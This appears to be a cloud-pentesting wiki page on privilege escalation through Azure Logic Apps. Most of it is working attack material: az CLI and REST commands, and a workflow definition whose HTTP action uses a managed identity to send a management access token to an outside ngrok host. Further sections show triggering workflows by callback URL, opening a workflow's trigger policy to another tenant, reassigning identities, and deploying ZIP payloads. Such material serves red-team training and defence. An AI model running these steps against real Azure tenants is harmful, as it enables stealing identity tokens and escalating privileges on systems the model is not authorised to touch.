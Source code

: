 # Az - Logic Apps Privesc

## Logic Apps Privesc
For more information about SQL Database check:

[[../az-services/az-logic-apps.md]]

### (`Microsoft.Resources/subscriptions/resourcegroups/read`, `Microsoft.Logic/workflows/read`, `Microsoft.Logic/workflows/write` && `Microsoft.ManagedIdentity/userAssignedIdentities/assign/action`) && (`Microsoft.Logic/workflows/triggers/run/action`)

These permissions allows to create/update Azure Logic Apps workflows with specific user managed identities and use them to get access tokens from them:

```bash
az logic workflow create \
  --resource-group <resource_group_name> \
  --name <workflow_name> \
  --definition <workflow_definition_file.json> \
  --location <location>

az logic workflow update \
  --name my-new-workflow \
  --resource-group logicappgroup \
  --definition <workflow_definition_file.json>
```

Example definition of workflow with manual trigger to steal a management token of an assigned identity listeningn in a ngrok URL:

```json
{
  "definition": {
    "$schema": "https://schema.management.azure.com/providers/Microsoft.Logic/schemas/2016-06-01/workflowDefinition.json#",
    "contentVersion": "1.0.0.0",
    "parameters": {},
    "triggers": {
      "manual": {
        "type": "Request",
        "kind": "Http",
        "inputs": { "schema": {} }
      }
    },
    "actions": {
      "GetSecret": {
        "type": "Http",
        "inputs": {
          "method": "GET",
          "uri": "https://82fa-81-33-67-18.ngrok-free.app",
          "authentication": {
            "type": "ManagedServiceIdentity",
            "audience": "https://management.azure.com/",
            "identity": "/subscriptions/0c7db2d7-90ba-4106-8610-cdd8c06971fe/resourceGroups/-rg-10b8e451/providers/Microsoft.ManagedIdentity/userAssignedIdentities/uai-10b8e451",
          }
        }
      },
      "Respond": {
        "type": "Response",
        "runAfter": { "GetSecret": ["Succeeded"] },
        "inputs": {
          "statusCode": 200,
          "body": "@body('GetSecret')"
        }
      }
    },
    "outputs": {}
  },
  "parameters": {}
}
```

And after modifying it, you can run it with:

```bash
az rest \
  --method post \
  --uri "https://management.azure.com/subscriptions/{subscriptionId}/resourcegroups/{resourceGroupName}/providers/Microsoft.Logic/workflows/{logicAppName}/triggers/{triggerName}/run?api-version=2016-10-01" \
  --body '{}' \
  --headers "Content-Type=application/json"
```

OIf there is a manual trigger, you can get the callback URL and run it:

```bash
az rest --method POST \
  --url "https://management.azure.com/subscriptions/<subscription>/resourceGroups/<rg-name>>/providers/Microsoft.Logic/workflows/<workflow-name>>/triggers/manual/listCallbackUrl?api-version=2019-05-01" \
  --query "value" -o tsv

curl -X POST "https://prod-11.centralus.logic.azure.com:443/workflows/02f4e715c50a42c58b683629ddb889f5/triggers/manual/paths/invoke?api-version=2019-05-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=5m1THJOCzEl6WoZyaont4i2A62PpSZhK3BtVAzYYTPY"
```

### Microsoft.Logic/workflows/write

With just this permission it's possible to change the Authorization Policy, giving for example another tenant the capability to trigger the workflow:

```bash
az rest --method PUT \
  --uri "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<resource-group-name>/providers/Microsoft.Logic/workflows/<workflow-name>?api-version=2016-10-01" \
  --body '{
    "location": "<region>",
    "properties": {
      "definition": {
        "$schema": "https://schema.management.azure.com/providers/Microsoft.Logic/schemas/2016-06-01/workflowdefinition.json#",
        "contentVersion": "1.0.0.0",
        "parameters": {
          "$connections": {
            "defaultValue": {},
            "type": "Object"
          }
        },
        "triggers": {
          "<trigger-name>": {
            "type": "Request",
            "kind": "Http"
          }
        },
        "actions": {},
        "outputs": {}
      },
      "accessControl": {
        "triggers": {
          "openAuthenticationPolicies": {
            "policies": {
              "<policy-name>": {
                "type": "AAD",
                "claims": [
                  {
                    "name": "iss",
                    "value": "<issuer-url>"
                  }
                ]
              }
            }
          }
        }
      }
    }
  }'
```

### `Microsoft.Logic/workflows/triggers/listCallbackUrl/action`
You can get the callback URL of the trigger and run it.

```bash
az rest --method POST \
  --uri "https://management.azure.com/subscriptions/<subscription_id>/resourceGroups/<resource_group>/providers/Microsoft.Logic/workflows/<workflow_name>/triggers/<trigger_name>/listCallbackUrl?api-version=2019-05-01"
```

This will return a callback URL like `https://prod-28.centralus.logic.azure.com:443/workflows/....`. Now we can run it with:

```bash
curl --request POST \
     --url "https://prod-28.centralus.logic.azure.com:443/workflows/<workflow_id>/triggers/<trigger_name>/paths/invoke?api-version=2019-05-01&sp=%2Ftriggers%2F<trigger_name>%2Frun&sv=1.0&sig=<signature>" \
     --header 'Content-Type: application/json' \
     --data '{"exampleKey": "exampleValue"}'
```

### `Microsoft.Logic/workflows/read`, `Microsoft.Logic/workflows/write` && `Microsoft.ManagedIdentity/userAssignedIdentities/assign/action`

With these permissions it's possible to modify Logic App workflows and manage their identities. Specifically, you can assign or remove system-assigned and user-assigned managed identities to workflows.

```bash
az logic workflow identity remove/assign \
  --name <workflow_name> \
  --resource-group <resource_group_name> \
  --system-assigned true \
  --user-assigned "/subscriptions/<subscription_id>/resourceGroups/<resource_group>/providers/Microsoft.ManagedIdentity/userAssignedIdentities/<identity_name>"
```

### (`Microsoft.Web/sites/read`, `Microsoft.Web/sites/basicPublishingCredentialsPolicies/read`, `Microsoft.Web/sites/write`, `Microsoft.Web/sites/config/list/action`) && (`Microsoft.Web/sites/start/action`)

With these permissionss it's possible to deploy Logic App workflows using ZIP file deployments. These permissions enable actions such as reading app details, accessing publishing credentials, writing changes, and listing app configurations. Alongside the start permissions you can update and deploy a new Logic App with the content desired

```bash
az logicapp deployment source config-zip \
  --name <logic_app_name> \
  --resource-group <resource_group_name> \
  --src <path_to_zip_file>
```


